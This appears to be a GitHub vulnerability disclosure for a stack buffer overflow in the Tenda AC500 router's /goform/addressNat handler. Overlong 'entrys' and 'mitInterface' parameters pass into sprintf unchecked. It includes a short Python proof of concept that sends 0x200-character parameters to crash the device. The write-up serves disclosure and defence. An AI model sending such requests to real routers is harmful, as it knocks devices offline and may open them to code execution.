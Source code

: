 # Tenda Router AC500 Vulnerability
This vulnerability lies in the `/goform/addressNat` page which influences the lastest version of Tenda Router AC500. (The latest version is [AC500_V2.0.1.9(1307)](https://www.tenda.com.cn/download/detail-2470.html))
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `fromAddressNat`.

In function `fromAddressNat` it reads 2 user provided parameters `entrys` and `mitInterface` into `v8` and `v7`, and these two variables are passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/113_1/vlun.png)

So by requesting the page `/goform/addressNat`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/addressNat?"
url += "entrys=" + "s" * 0x200
url += "&mitInterface=" + "a" * 0x200

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.
